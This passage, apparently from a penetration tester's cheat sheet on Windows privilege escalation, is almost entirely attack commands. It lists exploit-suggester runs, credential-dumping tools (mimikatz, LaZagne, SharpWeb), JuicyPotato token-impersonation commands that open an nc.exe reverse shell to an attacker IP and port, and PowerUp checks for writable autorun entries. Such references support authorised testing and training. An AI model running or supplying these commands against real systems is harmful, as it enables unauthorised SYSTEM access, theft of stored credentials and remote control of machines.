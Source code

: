```
systeminfo > systeminfo.txt
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --database <DATE>-mssb.xlsx --systeminfo systeminfo.txt

systeminfo > systeminfo.txt
wmic qfe > qfe.txt
python wes.py -u
python wes.py systeminfo.txt qfe.txt

powershell -exec bypass -command "& { Import-Module .\Sherlock.ps1; Find-AllVulns; }"
```

##### Post exploitation

```
lazagne.exe all
SharpWeb.exe
mimikatz.exe
```

#### JuicyPotato (SeImpersonate or SeAssignPrimaryToken)

```
If the user has SeImpersonate or SeAssignPrimaryToken privileges then you are SYSTEM.

JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t *
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c nc.exe <IP> <PORT> -e c:\windows\system32\cmd.exe" -t * -c <CLSID>

# CLSID
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
```

#### Methodology to follow

```
https://guif.re/windowseop
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
https://mysecurityjournal.blogspot.com/p/client-side-attacks.html
http://www.fuzzysecurity.com/tutorials/16.html
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
```

#### Autorun

##### Detection

```
powershell -exec bypass -command "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"

[*] Checking for modifiable registry autoruns and configs...

Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\My Program
Path           : "C:\Program Files\Autorun Program\program.exe"
ModifiableFile : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files\Autorun Program\program.exe; IdentityReference=Everyone}
```
